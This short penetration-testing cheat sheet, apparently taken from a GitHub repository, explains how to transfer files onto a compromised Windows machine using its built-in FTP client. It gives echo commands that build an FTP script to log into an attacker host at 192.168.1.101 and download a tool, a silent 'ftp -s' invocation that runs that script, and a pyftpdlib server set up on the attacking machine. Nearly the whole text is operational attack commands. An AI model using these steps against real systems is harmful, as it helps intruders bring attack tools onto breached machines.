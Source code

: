 # FTP (Built into Windows)

## First Method

* on the compromised machine we echo out the following commands into a file

```bash
echo open 192.168.1.101 21 > ftp.txt
echo user asshat >> ftp.txt
echo secretPass >> ftp.txt
echo bin >> ftp.txt
echo get wget.ext >> ftp.txt
echo bye >> ftp.txt
```

* then run this command

```bash
# -s:filename : Specifies a text file containing FTP commands; the
                # commands will automatically run after FTP starts
# -v : Suppresses display of remote server responses, aka returned input
# -n : Suppresses auto-login upon initial connection
ftp -v -n -s:ftp.txt
```

* a ftp-server configured with the user asshat and the password secretPass is needed

## Second Method

* on the attacking Linux machine run

```bash
pip install pyftpdlib
```

* then run this command on Attacking Machine

```bash
python -m pyftpdlib -p 21 w
```

* run on Victim Machine

```bash
ftp 10.10.10.10
```
